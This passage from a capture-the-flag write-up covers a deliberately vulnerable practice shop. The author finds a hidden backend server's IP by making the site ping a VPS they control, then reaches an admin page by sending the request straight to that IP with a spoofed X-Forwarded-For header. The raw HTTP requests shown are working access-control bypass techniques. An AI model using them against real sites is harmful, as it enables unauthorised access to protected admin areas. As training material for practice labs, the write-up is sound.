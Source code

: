 So can I use the assumed IP of the load balancer to discover the IP of the server it forwards it requests to? Lets try a fuzz with Burp Intruder such as the below using the `X-Forwarded-For` header and a fuzz range of 0-255

```
POST /stats HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Forwarded-For: 68.183.255.206
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/stats
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1

ping_target=8.8.17.<FUZZ>
```

And no still all FAIL results. I feel I'm on the right track I'm just missing a small part of the puzzle...

OK so I can also ping my own IP, as in the public IP of my router, if I can monitor ping requests then perhaps I can see who's pinged me. One problem with this is my router does not support forwarding. Sooo... I setup a basic VPS and ran the following command and pinged my VPS IP from the stats page

```
:¬# tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:17:10.232064 IP 159.65.24.127 > xxx: ICMP echo request, id 40330, seq 1, length 64
```

So now all I need to do is to adjust my request to the admin page like so (host is the IP above not the load balancer and the X-Forwarded-For is coming from HQ)

```
GET /adm1n-man4gem3nt-12bfb3?session_id=ODcyZjI5OWE2MGI3YTVjYWQxMGY3OThiNWQzY2JjYTljZWJmNjFlMGZmODA0Nzg2MzVhOTA3NDVjM2ZlMjBjMzFmYjJlMDA3OWNlNjZkYWJhZmQzNThjYmJhMGI4OGQyNzBiY2Q0NDlmNjU2NmVjZGZkZDk4MDVhOWNlOGI1MjE= HTTP/1.1
Host: 159.65.24.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
X-Forwarded-For: 8.8.17.22
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: ctfchallenge=xxx=;
Connection: close
Upgrade-Insecure-Requests: 1
```
